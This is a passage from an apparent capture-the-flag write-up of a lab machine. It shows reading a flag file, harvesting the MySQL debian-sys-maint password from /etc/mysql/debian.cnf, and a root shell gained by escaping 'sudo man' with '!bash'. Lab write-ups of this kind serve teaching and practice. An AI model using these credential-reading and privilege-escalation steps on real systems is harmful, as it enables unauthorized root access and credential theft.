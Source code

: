 ![](/images/writeup/internship/hidrogen/in.gif)

We can find the `flag2.txt` 

```bash
www-data@hydrogrencorp:/usr/share/nginx/www/wordpress/wp-content$ find / -name "flag2.txt" 2>/dev/null
/usr/share/nginx/www/wordpress.bak/flag2.txt
/usr/share/nginx/www/wordpress/flag2.txt
www-data@hydrogrencorp:/usr/share/nginx/www/wordpress/wp-content$ cat /usr/share/nginx/www/wordpress/flag2.txt
flag{db6029f93797df27262460156bfbe0b9}
```

#### Privesc

On the privesc part, basically it is much easier if we just do this on the first place. To gain a root user access, just `sudo -l` and we are lucky if it is enable for us to read. If not, we can try to run linpeas.sh or other tools to gain something interesting in the machine. The best practice, upload the tools in directory `/tmp or /dev/shm`

After look on the linpeas output, there is something interesting that we can get. There is mysql credentials file

```bash
-rw------- 1 root root 333 Jan 17  2019 /etc/mysql/debian.cnf
user     = debian-sys-maint
password = GXSBRvrHFALvpIca
user     = debian-sys-maint
password = GXSBRvrHFALvpIca
```

Try login into it by give this command

`mysql --defaults-file=/etc/mysql/debian.cnf`

But we unsuccessful to login, so we need to get the root access first. So here we are lucky because `sudo -l` can be read. 

```bash
john@hydrogrencorp:~$ sudo -l
[sudo] password for john: 
Matching Defaults entries for john on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    insults

User john may run the following commands on this host:
    (root) /usr/bin/man
```

Just ask our long-live friend, Google and making some research on how to run this, I found some interesting article [here](https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/) or we can read on gtfobins site too [https://gtfobins.github.io/gtfobins/man/](https://gtfobins.github.io/gtfobins/man/)

Give `sudo man man` and a man pager of man will be pop-up. So right now, we want to escape this. We just give command `!bash` and we get in into the root!!
